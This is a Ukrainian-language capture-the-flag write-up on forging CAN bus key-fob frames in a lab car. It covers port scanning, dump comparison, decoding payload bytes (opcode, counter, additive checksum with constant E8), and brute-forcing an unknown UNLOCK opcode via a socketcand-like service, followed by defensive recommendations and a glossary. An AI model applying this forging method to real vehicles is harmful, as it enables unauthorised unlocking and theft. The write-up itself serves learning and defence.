



# Phantom Fob - The fob locks but won’t unlock. Codes change every second, forge the signal; don’t replay it.

Складність: Medium  

Ціль: 10.114.131.219

## 1. Розвідка (Reconnaissance & Enumeration)

Сканування портів `Nmap`:
   ```bash
   └─$ sudo nmap -sC -sV -p- -vv -oN nmap_result.txt 10.114.131.219
   ```
Результат:


## 2. Веб-інтерфейс

На веб-сторінці був інтерфейс “брелока” автомобіля з кнопками:
* LOCK
* HORN
* IMMOB_ARM
* IMMOB_DISARM

Кнопки відправляли POST-запити на `/press`.
Приклад:
```bash
curl -sS -X POST http://10.114.131.219:8080/press \
    -H 'Content-Type: application/json' \
    -d '{"button":"LOCK"}'
```

Відповідь:
```bash
{"msg":"OK","ok":true}
```

Кнопки `UNLOCK` у веб-інтерфейсі не було, тому задача полягала не в простому натисканні, а в підробці CAN-фрейму.

## 3. Підключення до CAN-потоку

Підключення до TCP-сервісу:
```bash
nc 10.114.131.219 29536
```

Після підключення сервіс відповідав:
```bash
< hi >
```

Далі відкривався CAN-інтерфейс і вмикався `rawmode`:
```bash
< open can0 >
< rawmode >
```

Після цього починали йти CAN-фрейми такого виду `< frame 0B4 1790716653.557371 03d302dd8ece0367 >`, у форматі `< frame CAN_ID TIMESTAMP PAYLOAD >`.
Приклад `payload` - `03 d3 02 dd 8e ce 03 67`
Тобто:
```text
CAN_ID    = 0B4
timestamp = 1790716653.557371
payload   = 03d302dd8ece0367
```

## 4. Збір дампів

Щоб зрозуміти, який `CAN ID` відповідає за кнопки, були зібрані окремі дампи:
```text
data.raw                 — фоновий потік без натискання кнопок
lock-data.raw            — натискання LOCK 5 разів
horn-data.raw            — натискання HORN 5 разів
arm-data.raw             — натискання IMMOB_ARM 5 разів
disarm-data.raw          — натискання IMMOB_DISARM 5 разів
concurrently-data.raw    — одночасне натискання всіх відомих кнопок
```

Приклад запуску запису:
```bash
nc 10.114.131.219 29536 > lock-data.raw
```

Після підключення вводилось:
```bash
< open can0 >
< rawmode >
```

Потім в браузері натискались потрібні кнопки, а для одночасного натискання всіх відомих кнопок використано такий код:
```bash
curl -sS -X POST http://10.114.131.219:8080/press \
    -H 'Content-Type: application/json' \
    -d '{"button":"LOCK"}' &

curl -sS -X POST http://10.114.131.219:8080/press \
    -H 'Content-Type: application/json' \
    -d '{"button":"HORN"}' &

curl -sS -X POST http://10.114.131.219:8080/press \
    -H 'Content-Type: application/json' \
    -d '{"button":"IMMOB_ARM"}' &

curl -sS -X POST http://10.114.131.219:8080/press \
    -H 'Content-Type: application/json' \
    -d '{"button":"IMMOB_DISARM"}' &

wait
```

## 5. Пошук `CAN ID`, пов’язаного з кнопками

Для підрахунку кількості фреймів кожного `CAN ID` використовувався такий скрипт:
```bash
for file in data concurrently-data lock-data horn-data arm-data disarm-data; do
   echo "$file"

   tr '<' '\n' < "$file.raw" |
   awk 'toupper($1)=="FRAME" {
       count[toupper($2)]++
   }
   END {
       for (id in count)
           print count[id], id
   }' |
    sort -n
done
```

Результат:
```text
data
9 335
34 245
34 447
66 561
66 6D3
135 171
135 329
322 1B9
645 0B4
concurrently-data
4 18A
6 335
20 245
20 447
39 561
39 6D3
80 171
80 329
190 1B9
381 0B4
lock-data
5 18A
22 335
76 245
76 447
149 561
149 6D3
304 171
304 329
726 1B9
1452 0B4
horn-data
5 18A
23 335
78 245
79 447
153 561
153 6D3
311 171
311 329
733 1B9
1464 0B4
arm-data
5 18A
26 335
91 245
92 447
179 561
179 6D3
364 171
364 329
869 1B9
1737 0B4
disarm-data
5 18A
21 335
74 245
76 447
146 561
146 6D3
299 171
299 329
716 1B9
1432 0B4
```

У фоновому дампі `data.raw` `ID` `18A` не було, але при натисканні кнопок він з’являвся рівно по 5 разів.
Звідси висновок: `18A` — `CAN ID`, пов’язаний із натисканням кнопок.

## 6. Аналіз payload для `CAN ID` `18A`

Щоб подивитись тільки фрейми `18A`, використовувався скрипт:
```bash
for file in data concurrently-data lock-data horn-data arm-data disarm-data; do
   echo "$file"

   tr '<' '\n' < "$file.raw" |
   awk 'toupper($1)=="FRAME" &&
        toupper($2)=="18A" {
        print toupper($4)
   }' |
   sed -E 's/(..)/\1 /g'
done
```

Результат:
```text
data
concurrently-data
2C 7F 20 F3 84 39 40 43 
2C 7F 20 CF 84 39 1B 44 
2C 7F 20 21 84 39 6C 45 
2C 7F 20 1D 84 39 67 46 
lock-data
2C 7F DF 15 84 B0 40 2F 
2C 7F B7 E3 84 A5 40 30 
2C 7F 7C 48 84 44 40 31 
2C 7F F1 36 84 BC 40 32 
2C 7F 93 56 84 39 40 33 
horn-data
2C 7F E5 08 84 BD 1B 34 
2C 7F EF 2F 84 D9 1B 35 
2C 7F 08 FB 84 8B 1B 36 
2C 7F B6 96 84 77 1B 37 
2C 7F 2D 38 84 A1 1B 38 
arm-data
2C 7F 16 2F 84 5D 6C 39 
2C 7F 51 AB 84 9D 6C 3A 
2C 7F 67 E2 84 BD 6C 3B 
2C 7F BF F3 84 75 6C 3C 
2C 7F C0 8C 84 0C 6C 3D 
disarm-data
2C 7F 6D 06 84 DD 67 3E 
2C 7F 0B 13 84 4B 67 3F 
2C 7F 91 32 84 E3 67 40 
2C 7F B5 43 84 CF 67 41 
2C 7F A8 E8 84 80 67 42 
```

## 7. Структура payload

Payload має 8 байтів: 
```text
b0 b1 b2 b3 b4 b5 b6 b7
```

На прикладі `LOCK`:
```text
2C 7F 20 F3 84 39 40 43
```

Після порівняння декількох фреймів структура виглядала так:
```text
b0  2C   — фіксований байт
b1  7F   — фіксований байт
b2       — challenge/rolling-related байт
b3       — checksum / контрольна сума
b4  84   — фіксований байт
b5       — challenge/rolling-related байт
b6       — opcode кнопки
b7       — counter / лічильник
```

Фрейми з одночасного запуску:
```text
2C 7F 20 F3 84 39 40 43  -- LOCK
2C 7F 20 CF 84 39 1B 44  -- HORN
2C 7F 20 21 84 39 6C 45  -- IMMOB_ARM
2C 7F 20 1D 84 39 67 46  -- IMMOB_DISARM
```

Висновки:
```text
b6 = opcode кнопки

LOCK         = 40
HORN         = 1B
IMMOB_ARM    = 6C
IMMOB_DISARM = 67
```

Також видно, що `b7` збільшується `43 → 44 → 45 → 46`. Отже `b7 = counter`.

## 8. Чому `replay` не працює

З опису кімнати `Codes change every second, forge the signal; don’t replay it`. Тобто старий фрейм не можна просто повторити.
У payload є `rolling/challenge-related` байти та `counter`:\
```text
b2, b5 — challenge/rolling-related
b7     — counter
```

Тому треба не `replay`, а `forge`:
```text
1. зловити свіжий легальний FOB-фрейм;
2. залишити актуальні challenge/rolling байти;
3. збільшити counter;
4. підібрати opcode для UNLOCK;
5. перерахувати checksum;
6. відправити новий forged-фрейм.
```

## 9. Перевірка checksum через додавання

З іншого проходження було зрозуміло, що `checksum` може бути:
* XOR-based;
* additive checksum із константою.

`XOR` я окремо не розбирав глибоко, тому спочатку перевірив варіант із додаванням.

### 9.1. `LOCK`
Фрейм `2C 7F 20 F3 84 39 40 43`. Підозра `b3 = F3 = checksum`. Тому рахуємо суму всіх байтів, крім `F3`:
```text
2C + 7F + 20 + 84 + 39 + 40 + 43 = 20B
```

Оскільки `checksum` — це 1 байт, беремо результат по модулю `0x100`:
```text
20B mod 100 = 0B
```

Далі `F3 - 0B = E8`.
Отже для `LOCK` константа: `K = E8`.

### 9.2. `HORN`
Фрейм: `2C 7F 20 CF 84 39 1B 44`. Підозра: `b3 = CF = checksum`.
Сума всіх байтів, крім `CF`:
```text
2C + 7F + 20 + 84 + 39 + 1B + 44 = 1E7
```

Останній байт `1E7 mod 100 = E7`. Далі: `CF - E7 = -18`. У межах одного байта: `-18 mod 100 = E8`.
Отже для `HORN` теж: `K = E8`.

### 9.3. Висновок по `checksum`
Для різних відомих кнопок виходила однакова константа: `K = E8`.
Тому `checksum`, в данному випадку, рахується так: `checksum = (сума всіх інших 7 байтів + E8) mod 256`.

##  10. Фінальна ідея експлуатації

Оскільки `UNLOCK opcode` невідомий, але відомі opcode інших кнопок, можна перебрати всі можливі значення `00–FF`, крім уже відомих:
```text
40 — LOCK
1B — HORN
6C — IMMOB_ARM
67 — IMMOB_DISARM
```

Алгоритм:
```text
1. Підключитися до CAN TCP-сервісу.
2. Увімкнути rawmode.
3. Через веб натиснути легальний LOCK.
4. Зловити свіжий FOB-фрейм з ID 18A.
5. Перевірити, що opcode у ньому 40.
6. Взяти з нього актуальні challenge/rolling байти.
7. Збільшити counter на 1.
8. Перебрати всі opcode від 00 до FF.
9. Для кожного opcode перерахувати checksum.
10. Відправити всі forged-кандидати.
```

## 11. Запуск exploit

Був використаний скрипт [suma.py](./suma.py)
```bash
python3 suma.py
```

Вивід:
```bash
< hi >
[*] Натискаю легальний LOCK, щоб зловити свіжий FOB-фрейм...
[ВЕБ] Натиснуто LOCK: {"msg":"OK","ok":true}

[+] Зловлено свіжий LOCK-фрейм
    payload:        2C 7F 2E 27 84 5B 40 47
    checksum index: 3
    opcode index:   6
    counter index:  7
    поточний ctr:   47
    наступний ctr:  48
    checksum K:     E8

[*] Відправляю 252 forged-кандидатів opcode...
[+] Пачку unlock-кандидатів відправлено
[*] Тепер перевір веб-сторінку, /events або dashboard на зміну стану/flag.
```

Після відправлення forged-кандидатів стан дверей змінився, і на веб-сторінці з’явився `flag`.




## 14. Висновки та рекомендації

### Висновки
У цій кімнаті основна ідея була не в `replay-атаці`, а в підробці нового валідного CAN-фрейму. Старий фрейм не можна було просто повторити, бо payload містив `rolling/challenge-related` байти та `counter`, які змінювалися з часом.

У моєму інстансі було визначено:
```text
FOB_ID = 18A

b3 = checksum
b6 = opcode кнопки
b7 = counter
```

Відомі `opcode`:
```text
LOCK         = 40
HORN         = 1B
IMMOB_ARM    = 6C
IMMOB_DISARM = 67
```

Для `checksum` підійшла схема з додаванням і сталою константою:
```text
K = E8
```

Формула:
```text
b3 = (b0 + b1 + b2 + b4 + b5 + b6 + b7 + E8) & 0xFF
```

Фінальний exploit працював так: скрипт ловив свіжий легальний `LOCK`-фрейм, брав із нього актуальні `rolling/challenge` байти, збільшував `counter`, перебирав можливі `opcode` для невідомої кнопки `UNLOCK`, перераховував `checksum` і відправляв forged CAN-фрейми через `socketcand-like` сервіс.

Найскладнішою частиною було не написання скрипта, а розуміння структури payload: який байт відповідає за кнопку, який є лічильником, який є `checksum`, а які байти пов’язані з `rolling/challenge-логікою`.

### Рекомендації для проходження подібних задач
Для подібних задач не варто одразу копіювати значення з чужого walkthrough, бо після перезапуску інстансу можуть змінюватися `CAN_ID`, `opcode`, позиції байтів і схема `checksum`. Спочатку потрібно зібрати власні дампи: `data.raw` без натискань, окремі дампи для кожної кнопки та, за потреби, дамп з одночасним натисканням кількох кнопок.

Після збору дампів варто порівнювати не весь CAN-потік одразу, а конкретні payload для підозрілого `CAN_ID`. Найзручніше спочатку знайти `ID`, який відсутній у `data.raw`, але з’являється при натисканні кнопок. Потім потрібно розмітити payload по байтах `b0–b7` і перевірити, які байти стабільні, які змінюються залежно від кнопки, який байт поводиться як counter, а який схожий на `checksum`.

`Checksum` краще перевіряти як окрему гіпотезу. Мінімально варто протестувати два прості варіанти: `XOR-based checksum` і `additive checksum із константою`. Якщо для кількох різних фреймів одна й та сама формула дає стабільну константу, її можна використовувати для побудови `forged-фреймів`.

### Рекомендації для захисту
Головна проблема, яку демонструє ця кімната, — недостатня автентифікація команд. Якщо атакувальний користувач може спостерігати CAN-фрейми, зрозуміти їхню структуру, перерахувати checksum і відправити власний фрейм, то система фактично довіряє повідомленню лише через його формат. Цього недостатньо для критичних дій на кшталт `LOCK`, `UNLOCK` або керування іммобілайзером.

Для захисту подібних систем варто використовувати криптографічну автентифікацію команд, а не просту checksum. Checksum підходить для виявлення випадкових помилок передачі, але не захищає від навмисної підробки. Замість цього команда має містити MAC/підпис, який неможливо коректно згенерувати без секретного ключа.

Rolling code або challenge-response також мають бути реалізовані так, щоб їх не можна було використати повторно або передбачити. Counter повинен перевірятися на стороні приймача, а старі або пропущені значення мають відхилятися. Якщо використовується challenge, він має бути одноразовим і прив’язаним до конкретної команди.

Також варто обмежувати доступ до CAN-шини та проміжних сервісів. У цій кімнаті TCP-сервіс дозволяв читати й відправляти CAN-фрейми через socketcand-like інтерфейс. У реальній системі такий доступ має бути ізольований, автентифікований і недоступний з недовірених мереж.

Для критичних команд варто впроваджувати перевірку контексту. Наприклад, `UNLOCK` не має виконуватись лише тому, що отримано правильно сформований CAN-фрейм. Система може додатково перевіряти стан іммобілайзера, джерело команди, часові обмеження, послідовність попередніх подій і валідність криптографічного токена.

Корисним також є моніторинг аномалій у CAN-трафіку. У цій атаці exploit відправляв багато forged-кандидатів opcode підряд. Для реальної системи така поведінка є підозрілою: різке збільшення кількості команд, перебір opcode або нетипова послідовність counter можуть бути ознаками атаки.

У підсумку захист має будуватись не на прихованості формату фрейму, а на тому, що навіть після аналізу payload атакувальний користувач не зможе створити валідну команду без секретного ключа та коректного challenge-response процесу.


## 15. Коротка шпаргалка термінів

### CAN frame

CAN frame — це окреме повідомлення в CAN-шині.

У цій кімнаті фрейм виглядав так:

```text id="ggoa6k"
< frame 18A 1790716653.557371 2C7F20F384394043 >
```

Структура:

```text id="03ory3"
18A              — CAN ID
1790716653.557371 — timestamp
2C7F20F384394043 — payload
```

---

### CAN ID

CAN ID — це ідентифікатор типу повідомлення.

Наприклад, у моєму інстансі:

```text id="9egksz"
18A = key fob / кнопки брелока
```

Тобто фрейми з ID `18A` відповідали за натискання кнопок `LOCK`, `HORN`, `IMMOB_ARM`, `IMMOB_DISARM`.

---

### Payload

Payload — це дані всередині CAN-фрейму.

Приклад:

```text id="2d46nk"
2C 7F 20 F3 84 39 40 43
```

Його зручно розглядати як набір байтів:

```text id="6tv6q9"
b0 b1 b2 b3 b4 b5 b6 b7
2C 7F 20 F3 84 39 40 43
```

У моєму випадку:

```text id="6k18eq"
b3 = checksum
b6 = opcode кнопки
b7 = counter
```

---

### Opcode

Opcode — це байт, який визначає дію або команду.

У моєму інстансі:

```text id="ecuwk7"
40 = LOCK
1B = HORN
6C = IMMOB_ARM
67 = IMMOB_DISARM
```

Кнопки `UNLOCK` у веб-інтерфейсі не було, тому exploit перебирав інші opcode, щоб знайти невідомий opcode для `UNLOCK`.

---

### Counter

Counter — це лічильник, який збільшується при кожній новій команді.

Приклад:

```text id="u6pj1x"
43 → 44 → 45 → 46
```

Counter потрібен, щоб старі команди не можна було просто повторити. Якщо counter неправильний або застарілий, приймач може відхилити фрейм.

---

### Rolling code / rolling bytes

Rolling code — це значення, яке змінюється з часом або з кожною командою.

У payload це можуть бути один або кілька байтів, які не є самою кнопкою, але потрібні для валідності команди.

У моєму випадку такими байтами виглядали:

```text id="sfme02"
b2 і b5
```

Приклад:

```text id="gw4rmc"
2C 7F 20 F3 84 39 40 43
      ^^       ^^
      b2       b5
```

Вони змінювались між різними натисканнями, тому старий фрейм не можна було просто використати повторно.

---

### Replay attack

Replay attack — це повторення раніше зловленого валідного повідомлення.

Наприклад:

```text id="j8jel8"
1. Зловити старий LOCK-фрейм.
2. Відправити той самий фрейм ще раз.
```

У цій кімнаті replay не підходив, бо коди змінювались. Старий payload швидко ставав неактуальним через rolling/challenge байти та counter.

---

### Forge / forged frame

Forge — це не повтор старого повідомлення, а створення нового валідного повідомлення.

У цій задачі forge означав:

```text id="w5pjnd"
1. Зловити свіжий LOCK-фрейм.
2. Залишити актуальні rolling/challenge байти.
3. Змінити opcode.
4. Збільшити counter.
5. Перерахувати checksum.
6. Відправити новий CAN-фрейм.
```

Тобто exploit не повторював старий фрейм, а формував новий фрейм, який проходив перевірки.

---

### Challenge-response

Challenge-response — це схема, де одна сторона видає випадкове або змінне значення, а інша сторона має правильно на нього відповісти.

Спрощено:

```text id="yza5a5"
1. Система видає challenge.
2. Брелок формує відповідь на основі challenge.
3. Система перевіряє, чи відповідь правильна.
```

Це потрібно, щоб не можна було просто записати одну команду й повторювати її нескінченно.

У цій кімнаті challenge/rolling-логіка була слабкою, бо можна було зловити свіжий валідний фрейм і на його основі сформувати forged-кандидати.

---

### Checksum

Checksum — це контрольна сума, яка допомагає перевірити, чи payload має правильну структуру.

Важливо: checksum не є криптографічним захистом. Вона може виявити випадкову помилку передачі, але якщо формулу checksum можна зрозуміти, атакувальний користувач може перерахувати її для підробленого фрейму.

У моєму інстансі checksum був у `b3`:

```text id="0p7c4v"
2C 7F 20 F3 84 39 40 43
         ^^
         checksum
```

Формула:

```text id="7v425g"
b3 = (b0 + b1 + b2 + b4 + b5 + b6 + b7 + E8) & 0xFF
```

---

### `mod 256` / `& 0xFF`

`mod 256` означає залишити тільки значення, яке влазить в один байт.

Один байт має діапазон:

```text id="x7oz8j"
00–FF
```

Приклад:

```text id="eg0tfp"
20B mod 100 = 0B
```

У Python це часто записують так:

```python id="b57o0h"
value & 0xFF
```

Це означає: залишити тільки останній байт.

---

### socketcand-like сервіс

У цій кімнаті TCP-сервіс на порту `29536` дозволяв взаємодіяти з CAN-шиною через текстові команди.

Приклади:

```text id="rsx8lf"
< open can0 >
< rawmode >
< send 18A 8 2C 7F 2E 27 84 5B 40 47 >
```

Тобто через цей сервіс можна було не тільки читати CAN-фрейми, а й відправляти власні.

---

### rawmode

`rawmode` — це режим, у якому сервіс показує сирі CAN-фрейми.

Після команди:

```text id="tjyc9b"
< rawmode >
```

починався потік фреймів:

```text id="4crjyj"
< frame 18A timestamp payload >
```

Цей режим був потрібен, щоб зібрати дампи й порівняти payload для різних кнопок.

---

### MAC / криптографічна автентифікація

MAC — це криптографічний код автентичності повідомлення. На відміну від простої checksum, його не можна правильно згенерувати без секретного ключа.

Для захисту критичних команд типу `LOCK` або `UNLOCK` краще використовувати MAC або іншу криптографічну перевірку, а не просту checksum.

Checksum відповідає на питання:

```text id="cpq6sc"
Чи схоже повідомлення на правильно сформоване?
```

MAC відповідає на сильніше питання:

```text id="w78z2x"
Чи створив це повідомлення той, хто знає секретний ключ?
```

---

### Головна різниця між replay і forge

```text id="863lna"
Replay = повторити старий фрейм.
Forge  = створити новий валідний фрейм.
```

У цій кімнаті правильний шлях був саме forge, бо старі фрейми ставали неактуальними через rolling/counter-логіку.


